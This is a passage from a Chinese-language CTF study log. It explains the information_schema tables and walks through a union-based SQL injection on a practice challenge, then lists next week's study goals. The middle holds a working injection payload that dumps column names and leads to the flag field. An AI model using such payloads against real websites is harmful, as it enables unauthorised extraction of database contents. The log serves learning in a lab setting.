 







**在****information_schema****数据库中还可以利用的表：**

| **schema_name**  | **储存了所有数据库的库名**                 |
| ---------------- | ------------------------------------------ |
| **table_schema** | **储存了数据库名**                         |
| **tables**       | **储存了数据库库名，以及该库中包含的表名** |
| **table_schema** | **储存了数据库名**                         |
| **table_name**   | **储存了表名**                             |

得到表名为test_db,users

Your Login name:2

Your Password:test_tb,users

查询这两个表单中都有哪些字段，输入：?wllm=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='test_tb'--+

得到信息，发现有一个叫flag的字段

Your Login name:2

Your Password:id,flag

查询该字段得到flag

------

## 下周目标

1. sqli-lab的搭建
2. 深入学习数据库及sql相关知识
3. 继续推进sql注入类题型以及文件上传类题型，突破php://input等php伪协议的题
4. 熟悉githack工具的使用 
5. php入门
6. 有时间再搭建一下pikachu靶场